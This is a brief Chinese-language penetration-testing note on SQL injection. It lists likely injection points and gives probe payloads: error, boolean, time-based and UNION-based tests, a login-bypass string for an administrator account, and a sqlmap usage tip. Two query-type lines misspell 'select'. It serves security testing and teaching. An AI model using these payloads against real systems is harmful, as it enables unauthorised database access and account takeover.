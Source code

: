 注入 SQL 语句, 访问数据库.

## ==未归纳==

未授权看到数据库名即可，授权后再深入测试

## 手动

sql 注入可能存在的位置

```
登录框
检索
页面详情
Cookie
需要调用后端功能的 API
```

验证 sql 注入的方法

```
id=1' 
id=1"
> 看是否报错
id=1/1
id=1/0
> 看是否有不同（数据包，响应时间）
```

```
id=1' and '1' ='1
id=1' and 1=1#
id=1' and 1=1-- 
id=1' and 1=1--+
id=1' waitfor delay '0:0:5'--+
id=1' union select 1,@@VERSION,3--+

0%27XOR(if(now()=sysdate()%2Csleep(3)%2C0))XOR%27Z
若存在 SQL 注入则睡眠 3 秒
```

判断 sql 查询类型

```
id=1'||(seletc '')||'
id=1'||(seletc '' from dual)||'
```

在 SQL 查询中，`OR` 运算符具有短路求值的逻辑。这使得在查询中加入恒为真的条件（如 `1=1`）会使得整个 `WHERE` 子句总为真，从而返回所有记录。

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
```

登录框处的 sql 注入

```
SELECT * FROM users WHERE username = 'administrator'--+' AND password = ''
```

## 扫描器

sqlmap 在可使用 -r test.txt 对数据包进行注入（可测登录时的数据包）

